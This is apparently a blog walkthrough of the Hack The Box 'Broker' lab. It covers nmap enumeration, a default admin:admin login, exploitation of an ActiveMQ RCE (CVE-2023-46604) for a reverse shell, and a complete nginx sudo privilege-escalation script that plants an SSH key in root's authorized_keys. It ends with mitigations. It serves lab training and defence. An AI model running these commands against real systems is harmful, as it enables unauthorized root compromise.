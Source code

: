 ```yaml
---
title: Broker
date: 2025-05-11
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Linux, ApacheMQ-vulnerability, sudo-nginx-privesc] 
image: box-broker.png
media_subpath: /assets/img/posts/2025-05-11-brokerHTB/
---
```


## Introduction

In this walkthrough, I worked on **Broker**, an easy-difficulty Linux machine running a vulnerable version of **Apache ActiveMQ**. During enumeration, I identified the version in use and discovered it was affected by a known **Unauthenticated Remote Code Execution (RCE)** vulnerability. I exploited this RCE to gain an initial foothold on the machine as a low-privileged user.

Further enumeration revealed a **sudo misconfiguration**, where the `activemq` user was allowed to run **`/usr/sbin/nginx` with sudo privileges**. This misconfiguration is reminiscent of a recent vulnerability in **Zimbra**, where improper privilege handling can lead to escalation. I leveraged this sudo access to execute code as **root**, thereby gaining full system control.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22

Version - OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)

We usually skip SSH.

### Port 1883

I don’t really think we should waste time with this port

[MQTT Pentesting](https://exploit-notes.hdks.org/exploit/hardware/mqtt-pentesting/)

### Port 5672

The same goes here:

[AMQP Pentesting](https://exploit-notes.hdks.org/exploit/network/protocol/amqp-pentesting/)

### Port 61613

### Port 61616

## Web

### Port 80

Version - nginx 1.18.0 (Ubuntu)

We navigating to the website we are presented with login screen.

![image.png](image%203.png)

I used `admin:admin` and got access to ActiveMQ web application.

### Port 8161

Version - Jetty 9.4.39.v20210325

Same website

### Port 61614

Nothing here.

## Exploitation

Searching for `ActiveMQ OpenWire transport 5.15.15` vulnerabilities I come across the following:

[CVE-2023-46604 ApacheMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ?tab=readme-ov-file)

I used it following the instructions and was able to get a reverse shell.

1. First modify `poc-linux.xml` 
2. Make payload with msfvenom
3. Start webserver
4. Run not `.exe` file but `go` file with go run

![image.png](image%204.png)

Let’s get an interactive shell using python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

- OSCP Checklist
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits 
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    

We can run `nginx` binary with sudo privileges.

![image.png](image%205.png)

I have GitHub repo where it describes how to get root shell when having sudo privileges over nginx.

[Nginx Sudo Privilege Escalation](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)

```bash
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

Nginx configuration file is written such that process is run as root, it exposes entire root directory in the line `root /`, and `PUT` method is enabled so we can PUT files using this exploit to anywhere.

After running this exploit copy private key and use it for connecting as root user.

```bash
chmod 600 root_key
ssh -i root_key root@host
```

## Mitigation

- **Update Apache ActiveMQ** to the latest stable version and regularly monitor for CVEs affecting middleware components.
- Restrict or remove unnecessary **sudo permissions**, especially for binaries like `nginx` that can be abused for privilege escalation.
- Apply the **principle of least privilege** to service accounts like `activemq`, ensuring they have only the minimum required permissions.
- Monitor sudoers configuration for **misconfigurations or overly permissive entries** using tools like `sudo -l` auditing.
- Consider **sandboxing services** like ActiveMQ and nginx using containers or systemd isolation features to limit impact in case of compromise.
